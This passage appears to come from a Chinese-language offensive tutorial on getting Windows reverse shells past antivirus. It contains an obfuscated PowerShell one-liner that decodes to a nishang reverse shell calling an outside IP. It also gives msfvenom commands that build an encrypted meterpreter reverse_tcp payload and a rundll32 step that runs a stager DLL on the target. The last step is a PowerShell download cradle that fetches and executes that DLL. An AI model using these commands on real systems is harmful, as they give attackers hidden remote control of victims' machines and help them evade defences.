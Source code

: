 编码后如下：

```
 & ( $eNV:ComsPec[4,15,25]-JOin'')(( '73T65T74{20!53J63!72Z69J70y74y42w6cT6fy63{6bJ20Z2e;20w46{3aT5cw50!72y69;76w69J6c;65!67{65;5cJ6e!69Z73J68;61w6eZ67!2d;6dy61T73;74J65;72T5cJ53Z68J65w6c!6cT73T5c{49J6ew76y6fy6b{65w2dZ50!6f{77w65T72J53y68;65T6cw6cT54y63!70w2e!70Z73{31{3b{20{49J6e!76Z6fy6bT65T2dJ50w6f!77!65;72;53!68J65y6cw6cZ54T63!70!20;2dJ52J65w76Z65y72w73w65!20!2d;49Z50T41T64J64!72w65T73T20{31;31;38J2ey32J35{2e;36{39!2e;31w39Z39!20Z2d!50!6fT72!74{20T34J34J34Z34' -spLiT'J'-SPlIt';' -spLIt'!'-SPlIT'y' -SPliT '{' -SPLIt 'w' -SPLIT 'T' -Split'Z'|%{([chAr] ([CoNVerT]::toiNt16(( $_.TOstRiNg()),16 ) ))}) -JOiN'')
```

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l3yess7j20pn05kaa6.jpg)

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l4f4h62j20zk0qx10g.jpg)

## 三、stager.dll-master

meterpreter.rc

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l5wtadsj20uw0fjduq.jpg)

启动msf5

```bash
./msfconsole -r ./stager.dll -master/meterpreter.rc
```

生成payload：

```bash
./msfvenom -p windows/meterpreter/reverse_tcp_rc4 EXIT_FUNC=PROCESS LHOST-192.168.211.179 LPORT=443 RC4PASSWORD=GeekIsChic --encrypt aes256 --encrypt-iv E7a0eCX76F0YzS4j --encrypt-key 6ASMkFslyhwXehNZw048cF1Vh1ACzyyR -f c -o /tmp/meterpreter.c
```

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l7f5ba2j20iw05m76m.jpg)

生成exp：

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l80v1dij20el0b5jry.jpg)

靶机执行

```bash
rundll32 stager.dll,Exec
```

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l9buhhjj211x0buwsa.jpg)

②dll放入服务器

```bash
$file = $env:temp+'\'+(Get-Random)+'.dll'; (New-Object System.Net.WebClient).DownloadFile('http://192.168.211.179/Privilege/stager.dll',$file); $exec = New-Object -com shell.application; $exec.shellexecute('rundll32',$file+',Exec');
```
